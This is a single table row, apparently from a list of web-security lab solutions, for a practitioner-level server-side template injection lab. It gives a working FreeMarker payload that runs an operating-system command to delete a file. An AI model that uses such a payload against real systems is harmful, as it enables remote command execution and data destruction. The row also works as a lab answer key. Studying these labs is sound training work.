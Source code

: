 |87    |Server-side template injection using documentation                                                                       |<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |Practitioner, SSTI                          |